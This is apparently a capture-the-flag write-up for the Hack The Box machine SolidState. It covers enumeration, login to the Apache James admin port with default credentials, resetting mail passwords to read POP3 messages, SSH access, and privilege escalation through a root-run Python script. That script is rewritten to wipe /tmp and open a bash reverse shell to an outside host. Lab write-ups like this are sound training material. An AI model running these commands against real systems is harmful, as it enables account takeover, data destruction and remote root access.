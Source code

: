 
![logo](/logo.png)

# [SolidState- BOX]  
Hi folks, today I am going to solve an Medium rated hack the box machine which was released on 08 Sep 2017 machine on HTB,SolidState created by [ch33zplz](https://app.hackthebox.com/users/3338) .So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *Apache
  *James 
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/solidstate 10.10.10.51
```

###### Output 

![](/Linux/Linux-Medium/SolidState/Screenshots/nmap.png)

```sh
 nmap -sV -sC -oA nmap/solidstate 10.10.10.51                                                                                      ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 19:30 EAT
Nmap scan report for 10.10.10.51
Host is up (0.34s latency).
Not shown: 995 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp  open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.15 [10.10.14.15])
80/tcp  open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp open  pop3?
119/tcp open  nntp    JAMES nntpd (posting ok)
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 294.73 seconds
```

looking at the results  we find out that there are 5 ports open and its a `Ubuntu`and its running an `Apache James`. 
port[22]-ssh
port[25]-smtp
port[80]-  httpd 2.4.25
port[110]-pop3
port[119]-nntp

so when we go the browser at [http://10.10.10.51](http://10.10.10.51) solid state security website
 
![](/Linux/Linux-Medium/SolidState/Screenshots/home.png)

looking at the page i find nothing of interesting so let me start gobuster to enumerate active directories.

```sh
gobuster dir -u http://10.10.10.51 -w /usr/share/wordlists/dirb/common.txt -k --no-error
```

![](/Linux/Linux-Medium/SolidState/Screenshots/gobuster.png)

I find nothing of interesting from the gobuser but looking at the nmap i saw apache james listenning in different ports.

James Mail Server is listening on four ports with different functions. Simple Mail Transfer Protocol (SMTP) on TCP 25, Post Office Protocol (POP3) on TCP 110, and Network News Transfer Protocol (NNTP) on TCP 119 are all services that this box is offering. I could look at potentially brute forcing valid user names or sending phishing emails, but first I want to look at port 4555.

TCP port 4555 is interesting because it is the James administration port. Even without an exploit, if I can access this service, I can likely get into things that might be useful. so lets look for the exploit 

```sh
searchsploit james 2.3.2
```

![](/Linux/Linux-Medium/SolidState/Screenshots/searchsploit.png)

here is a remote code execution vulnerability, however it requires valid credentials. I can connect to 4555 with `nc`, and I’m prompted to login. The default creds of `root/root` work:

![](/Linux/Linux-Medium/SolidState/Screenshots/nc.png)

i can get a list of commands by using `help` the now from teir i can see a commdand to list user accounts.

![](/Linux/Linux-Medium/SolidState/Screenshots/telnet.png)

I can change the password for each

![](/Linux/Linux-Medium/SolidState/Screenshots/setpasswd.png)

For each account, I can now connect to TCP 110 (POP3) to check mail. `telnet` works best to connect to POP3. The first user, james, has no messages:

```sh
telnet 10.10.10.51 110
```

I find something interesting in john which leads me all way to `mindy`

![](/Linux/Linux-Medium/SolidState/Screenshots/mindy.png)

from the second message i find a password.

![](/Linux/Linux-Medium/SolidState/Screenshots/retr.png)


now lets ssh into the box with mindy as the user and the passord found earlier

```sh
ssh mindy@10.10.10.51
```

![](/Linux/Linux-Medium/SolidState/Screenshots/ssh.png)

and we can find the user text from 

![](/Linux/Linux-Medium/SolidState/Screenshots/userflag.png)

we can also use the exploit earlier we foud in the searchsploit 

![](/Linux/Linux-Medium/SolidState/Screenshots/exploit.png)


now that we have access to mindy let us install `LinEnum` to execute privsecs

```
 python 50347.py 10.10.10.51 10.10.14.5 443 
```


looking at the nc set then i find  a more interactive shell 

![](/Linux/Linux-Medium/SolidState/Screenshots/interactive.png)

so let us be able to run Linpeas to find privsec

![](/Linux/Linux-Medium/SolidState/Screenshots/Linenum.png)

from the LinEnum i find something interesting `tmp.py` being runned by root 

![](/Linux/Linux-Medium/SolidState/Screenshots/tmp.png)

let now replace a reverse shell with an exploit 

```sh
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
os.system('bash -c "bash -i >& /dev/tcp/10.10.14.5/1339 0>&1"')
```

now then we set a listner then we get root

![](/Linux/Linux-Medium/SolidState/Screenshots/root.png)

	-------------------------END successful attack @lesley----------------------
